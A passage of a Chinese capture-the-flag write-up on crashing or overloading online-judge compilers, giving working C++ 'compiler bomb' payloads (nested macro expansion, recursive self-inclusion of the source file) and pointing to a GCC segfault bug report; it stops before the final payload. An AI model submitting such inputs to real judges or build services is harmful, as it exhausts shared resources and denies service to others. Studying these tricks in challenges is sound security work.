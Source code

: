 去调研过 OJ 安全性的同学们都知道，编译器也是不靠谱的。这里有三个要求，分别对应三个 flag。

### Flag 1：产物超过 8MB

StackExchange Coldgolf 上对 compiler bomb 有[相关的讨论](https://codegolf.stackexchange.com/questions/69189/build-a-compiler-bomb/)。因为是 C++，有些 C 的 payload 是用不了的。最后我选择的是用[多层 `#define` 的方式](https://codegolf.stackexchange.com/questions/69189/build-a-compiler-bomb/69413#69413)搞出很大的编译产物。

直接复制是不行的：

```cpp
#define G A+A+A+A+A+A+A+A+A+A
#define A B+B+B+B+B+B+B+B+B+B
#define B C+C+C+C+C+C+C+C+C+C
#define C D+D+D+D+D+D+D+D+D+D
#define D E+E+E+E+E+E+E+E+E+E
#define E F+F+F+F+F+F+F+F+F+F
#define F x+x+x+x+x+x+x+x+x+x

int main(void) { int x, y = G; }
```

编译太慢了，要微调一下取得编译时间和程序大小的平衡。我参考了 <https://codegolf.stackexchange.com/questions/69189/build-a-compiler-bomb/111257#111257> 进行微调，结果如下：

```cpp
#define a 1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
#define b a,a,a,a,a,a,a,a,a,a,a,a,a,a,a,a
#define c b,b,b,b,b,b,b,b,b,b,b,b,b,b,b,b
#define d c,c,c,c,c,c,c,c,c,c,c,c,c,c,c,c
#define e d,d,d,d,d,d,d,d,d,d,d,d,d,d,d,d
#define f e,e,e,e,e,e,e,e,e,e,e,e,e,e,e,e
long long x[]={e};

int main(void) {}
```

### Flag 2：报错超过 2MB

众所周知，C++ 的模板能够产生大量错误信息——但是我这里没用模板，因为我自己也写不明白。我参考了 <https://codegolf.stackexchange.com/questions/1956/generate-the-longest-error-message-in-c>，最后 payload 如下：

```cpp
#include __FILE__
#include __FILE__
#include __FILE__
#include __FILE__
#include __FILE__
p;
```

### Flag 3：I C E!

让编译器段错误什么的，这么严重的问题，当然得去 g++ 收 bug 的地方看。在 <https://gcc.gnu.org/bugzilla/query.cgi> 搜索 `segfault`，然后按时间排序，过一遍就能看到 <https://gcc.gnu.org/bugzilla/show_bug.cgi?id=105300> "[10/11/12/13 Regression] segfault from static_assert with user-defined string suffix argument"。直接复制即可：
